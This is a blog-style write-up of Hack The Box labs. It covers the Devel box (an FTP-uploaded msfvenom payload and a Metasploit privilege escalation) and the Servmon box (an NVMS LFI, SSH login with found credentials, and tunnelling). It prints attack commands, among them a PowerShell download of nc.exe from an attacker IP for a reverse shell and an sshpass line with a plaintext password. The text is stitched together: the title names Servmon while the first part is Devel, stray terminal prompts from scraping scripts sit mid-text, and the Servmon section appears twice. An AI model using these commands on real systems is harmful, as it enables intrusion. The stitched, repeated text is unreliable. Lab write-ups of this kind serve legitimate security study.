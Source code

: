 ```yaml
---

title: "Servmon HTB"
date: 2024-08-07 20:17:41 +0800
categories: [Servmon, Medium]
tags: [Servmon, Easy-Level, Windows, HTB Walkthrough]

---
```



Quote: When you find a good move, Find a better one.
Hello Folks,
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
This is my first write-up on the medium. Very recently I’ve been preparing for the PNPT Certification, After completing the PEH Course(1 of 5 off the PNPT Bundle). I am exploring the Windows Privilege Escalation Course for beginners Where Heath Adams has made in-detail videos while practically exploring Subscriptions of HTB. Considering they are the cheapest. I am Planning to Work on OSCP next. And I heard HTB labs were practically real-world hacking.
So, I thought Why not give it a shot (I have never been on the VIP side on HTB) and also share my experience of practicing rooms and boxes? Which may help newcomers like me. What I am gonna do differently than other write-ups?
At the end of every machine I get to crack, I will be posting Hacker’s Understanding Mind Map(Why they are doing what they are doing). Which is a great resource for any beginner who wants to build the methodology. So, they won’t get lost in finding endless next steps? Trying a Hundred things on the internet.
Note: Any additional ideas/thought processes are highlighted with ** **.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Right After Connecting to the HTB VPN, Routine of any other machine:
Reconnaissance:
> nmap -A -T4 -p- 10.10.10.5
Normally, you could a -sC (performing Default scripts), or -sV(OS Detection) for more information on this.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Now There are 2 takeaways here,
we have some leads to investigate & get back to recon if needed.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
why not try an FTP connection?
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
**I tried directory brute-forcing at http://10.10.10.5 with dir buster and its default 2–3 medium wordlist. But as it doesn’t seem to be a big server, There are not any interesting results found.**
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
**As the website runs on a Windows IIS7 server, I wanted to understand the technologies behind the website. So, I’m running a Nikto scan which shows the server is using .apsx files for its web framework. (N)**
we have the website And we can see the files we can access through ftp are the ones the web server is hosting. Then, simply upload a custom-created payload using msfvenom.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Now, we have our shell in the server. we can successfully run our exploit on the browser triggering it. For that, all we need to do is search for the file in the web browser while listening for any incoming connections using Metasploit’s very known module post/multi/handler.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And Tada!! we got our first shell on the machine✨🎇.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Now, As we got some foothold on the machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
While browsing through the files on the system. There is the Administrator & babis Folder. Which might give us the user and root flag we are looking for. But the Access is denied.
Based on the HTB’s Guideline we can get to know there is a metasploit module that is good at suggesting exploits for privilege escalation(Similar to the Winpeas Tool). i.e.; multi/recon/local_exploit_suggester.
So running this module can guide to us some possibilities:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Results:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Now there is a whole list of successful exploits displayed here. So, trying them one by one is the optimal way to find the one which works for us.
Crossing the fingers: I got a session here…
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And, we got in!!
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Browsing for flags:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Getting flags is equal to compromising the machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
I will continue to post more on these Thought process takeaways, As I crack more machines. Thumbs up If you like these and follow me for more.


PS C:\Users\Eshwa> C:/Users/Eshwa/AppData/Local/Microsoft/WindowsApps/python3.10.exe C:\Users\Eshwa\scrape-medium.py
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Iz1Wlacvl_RhOJfLZLTWxQ.png]
Un-Important Intro:
Now now, Earlier with my first write up. I’ve written a walkthrough on the Retired machine “devel”. I have talked about how anonymous FTP login had been helpful with uploading the msfvenom crafted payload into web IIS. we have privilege escalation.
This walkthrough can be a follow-up for those willing to learn Windows privilege escalation. Feel free to check the “devel” walkthrough here.
Recon results:
Nmap scan: anonymous FTP login, open SSH logins, and there is an http web server running which is NVMS 1000 web server.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*I32Ik5tLAIiGi-4MZnGM-Q.png]
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*tMqLl69A-0Wj-Q4N0fYAbg.png]
Enumeration Begin:
//80 HTTP — web server — { Hosting NVMS — 1000 (Network Surveillance Management Software) instance) Which is found vulnerable to LFI.}
You can normally search for this vulnerability to confirm through searchsploit nvms 1000 (or) download the payload from exploit db.
From Recon.
//21 - FTP login
A cool one-liner hack I have found online to grab files from an anonymous FTP login wget -r ftp://anonymous:@10.10.10.184
If we search for NVMS vulnerabilities through searchsploit or metasploit we can find there is a LFI Vulnerability on this machine.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Zi6VTnC3OxbDw3UdY4403A.png]
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*yOr4qCrVFfdzpKf8YvjjMQ.png]
Overall Information we got.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*ya2NkDyaSttiEZBjsO_05w.png]
Using this information. as we know users: Nathan & Nadine / Passwords with these possibilities, we can try either smb_login Metasploit or the crackmapexec.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*hL2JCiQmODwPQk8Ginw0Qw.png]
Now, there is a successful login. let’s try it out.
Unluckily smb login doesn’t work. So, I tried ssh_login with same credentials.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*hU29UJHX94Ux6xz5KPqdNg.png]
And Tada!! we got the user flag.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*l7uURxQj7oUM_slq6ZLzkg.png]
If we try to access the Administrator account. Understand this is not the end.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*nSw-_MeL8HrXdGg8T7mENw.gif]
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*w0BecdMnX8pc0TOcvMyerQ.png]
This can be really confusing, I kindly request go along with implementing the process to get a complete understanding of what’s happened.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*31n9KJ_xeXXVEyqSyPI_aQ.gif]
Background Concept SSH Tunneling:
For the base theory refer to this YouTube video. which I found helpful for understanding why ssh tunnel is used. To understand how we can use this method for our example refer to the following image.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*7pe1D-9ICdzeLk5qLNIx3A.png]
Fast forward to this,
sshpass -p “L1k3B1gBut7s@W0rk” -L 8443: localhost:8443 ssh [email protected]
Started a Python server for file transfer between linux and Windows.
Linux: python3 -m http.server -b
Windows: powershell -c (New-Object Net.WebClient).DownloadFile(‘http://10.10.14.77:8000/nc.exe','nc.e
xe’)
you can easily spot the nc.exe file in /usr/share/seclists/Web-Shells/FuzzDB if you’re using kali linux.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*txbw-Q3T9rK2Njau5stHPA.png]
There now as we got netcat listener on the victim. We just have to ring a bell to it.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*dugDx9tDlq_dvEBudb5sWQ.png]
2. There is our shell on the machine, now we need to
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*fqoIXWWYTq004U1RTv1l5Q.png]
3. run a Netcat listener on our attacking machine.
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*bSa8Kp_fYGEXSyLvijlcFQ.png]
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*I0aNyKP68107LZXM9tKA9w.png]
Hell, yeah we got the root flag. The machine is Pwned!!
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*pPAq7i_wySskqc_85zB54Q.png]
Easy right??
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*cTRJNM4ehX9Gf3QK8Heijg.gif]
In-Summary:
Upon getting Nmap scan results from the servmon.
Mind Map:
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*zikNtK4rF-p8QkixZMucMg.png]
[Image: https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*8jcIGXJen_E0GY5W23sQFA.png]
Appreciate If you like my approach, Follow for more.
PS C:\Users\Eshwa> C:/Users/Eshwa/AppData/Local/Microsoft/WindowsApps/python3.10.exe C:\Users\Eshwa\image_replace.py


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Un-Important Intro:
Now now, Earlier with my first write up. I’ve written a walkthrough on the Retired machine “devel”. I have talked about how anonymous FTP login had been helpful with uploading the msfvenom crafted payload into web IIS. we have privilege escalation.
This walkthrough can be a follow-up for those willing to learn Windows privilege escalation. Feel free to check the “devel” walkthrough here.
Recon results:
Nmap scan: anonymous FTP login, open SSH logins, and there is an http web server running which is NVMS 1000 web server.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Enumeration Begin:
//80 HTTP — web server — { Hosting NVMS — 1000 (Network Surveillance Management Software) instance) Which is found vulnerable to LFI.}
You can normally search for this vulnerability to confirm through searchsploit nvms 1000 (or) download the payload from exploit db.
From Recon.
//21 - FTP login
A cool one-liner hack I have found online to grab files from an anonymous FTP login wget -r ftp://anonymous:@10.10.10.184
If we search for NVMS vulnerabilities through searchsploit or metasploit we can find there is a LFI Vulnerability on this machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Overall Information we got.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Using this information. as we know users: Nathan & Nadine / Passwords with these possibilities, we can try either smb_login Metasploit or the crackmapexec.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Now, there is a successful login. let’s try it out.
Unluckily smb login doesn’t work. So, I tried ssh_login with same credentials.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And Tada!! we got the user flag.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
If we try to access the Administrator account. Understand this is not the end.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
This can be really confusing, I kindly request go along with implementing the process to get a complete understanding of what’s happened.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Background Concept SSH Tunneling:
For the base theory refer to this YouTube video. which I found helpful for understanding why ssh tunnel is used. To understand how we can use this method for our example refer to the following image.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Fast forward to this,
sshpass -p “L1k3B1gBut7s@W0rk” -L 8443: localhost:8443 ssh [email protected]
Started a Python server for file transfer between linux and Windows.
Linux: python3 -m http.server -b
Windows: powershell -c (New-Object Net.WebClient).DownloadFile(‘http://10.10.14.77:8000/nc.exe','nc.e
xe’)
you can easily spot the nc.exe file in /usr/share/seclists/Web-Shells/FuzzDB if you’re using kali linux.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
There now as we got netcat listener on the victim. We just have to ring a bell to it.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
2. There is our shell on the machine, now we need to
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
3. run a Netcat listener on our attacking machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Hell, yeah we got the root flag. The machine is Pwned!!
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Easy right??
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
In-Summary:
Upon getting Nmap scan results from the servmon.
Mind Map:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Appreciate If you like my approach, Follow for more.
